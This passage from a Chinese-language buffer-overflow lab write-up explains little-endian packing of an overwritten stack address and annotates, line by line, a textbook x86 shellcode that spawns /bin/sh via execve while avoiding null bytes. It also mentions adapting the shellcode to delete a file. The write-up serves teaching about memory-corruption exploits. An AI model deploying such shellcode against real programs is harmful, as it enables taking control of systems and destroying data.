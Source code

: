 这里要注意，我们是使用单字节 string 来溢出，在内存中是直接顺序存储的，而 4 字节的指针则是按小端序（x86）存储（指针值的低位要放到低地址），因此要使用 `struct.pack('<L', stack_saved_ebp + 8)` 来转换顺序。

下一步，按实验的要求，修改 shellcode 为 unlink（删除）指定文件。

首先学习一下教材的样例 shellcode.S 是怎么写的，它的目标是调用 execve 系统调用来执行 /bin/sh。

execve 系统调用的原型是：

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

其中 pathname 是可执行文件的 pathname， argv[] 是 string 指针数组，指向要传递给该新程序的各个参数（ vector），其中 argv[0] 第一个参数约定是指向被执行文件的 filename（就是 pathname），argv 必须以 NULL 指针中断。

envp[] 也是 string 指针数组，指向的字符串是 key=value 形式，代表该执行程序的将设置的环境变量。同样必须以 NULL 指针中断。

shellcode.S 逐行解读如下：

```assembly
#include <sys/syscall.h>

#define STRING    "/bin/sh"
#define STRLEN    7
#define ARGV      (STRLEN+1)
#define ENVP      (ARGV+4)

.globl main
    .type   main, @function

 main:
    jmp     calladdr  //编译后机器码的第一个指令，就是跳转到末尾的 calladdr */

 popladdr:
    /* 首先要把 syscall 的参数（在栈上）准备好
    popl    %esi             /* 配合之前的 push STRING，这里 pop 恰好就把 STRING 的首地址放到了 esi，妙 */
    movl    %esi,(ARGV)(%esi)     /* set up argv pointer to pathname */
                                  /* esi 偏移 + 7（含null的字符串长度）*/
                                  /* 紧跟着 STRING （含 NULL）后，放置 argv pointer */
    xorl    %eax,%eax        /* get a 32-bit zero value */
    movb    %al,(STRLEN)(%esi)    /* null-terminate our string */ /* 为 STING 末尾补足 NULL */
    movl    %eax,(ENVP)(%esi)     /* set up null envp */
                                  /* 填充 ENVP 为 NULL，等价于为 ARGV 补充了一个 NULL 截断 */

    /* 接下来把准备好的参数，逐个放置到 register 中 */
    movb    $SYS_execve,%al        /* syscall arg 1: syscall number */ 
    movl    %esi,%ebx        /* syscall arg 2: string pathname */
    leal    ARGV(%esi),%ecx        /* syscall arg 2: argv */
    leal    ENVP(%esi),%edx        /* syscall arg 3: envp */
    int     $0x80            /* invoke syscall */

    /* 执行 exit 系统调用，让程序安静地退出。 */
    xorl    %ebx,%ebx        /* syscall arg 2: 0 */
    movl    %ebx,%eax
    inc     %eax         /* syscall arg 1: SYS_exit (1), uses */ //exit 的 syscall number 是 1
                         /* mov+inc to avoid null byte */
                         /* 这里不用立即数 1 是为了避免 shellcode 出现 NULL 字节 */
                         /* 否则shellcode无法传递  */
    int     $0x80        /* invoke syscall */

 calladdr:
    call    popladdr /* call 指令的作用，1. push 返回值 STRING 的地址到栈 2. 进入 ppladdr 执行后续指令 
    .ascii  STRING
```
{: file='shellcode.S'}
